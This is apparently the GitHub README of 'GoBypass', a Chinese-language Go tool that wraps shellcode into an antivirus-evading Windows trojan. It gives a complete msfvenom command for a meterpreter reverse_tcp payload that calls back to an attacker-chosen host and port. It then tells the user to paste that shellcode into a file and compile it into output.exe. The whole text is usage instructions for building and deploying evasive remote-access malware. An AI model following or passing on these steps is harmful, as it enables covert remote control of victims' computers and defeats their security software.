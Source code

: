 # GoBypass

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不懂二进制和免杀，只是搬运工，借鉴大佬的代码自己造轮子

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

### 生成免杀马

注意：
1. 确保环境变量中有`go`否则无法编译
2. 如果报错请先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

使用命令：`go run main.go`即可在当前目录生成免杀马`output.exe`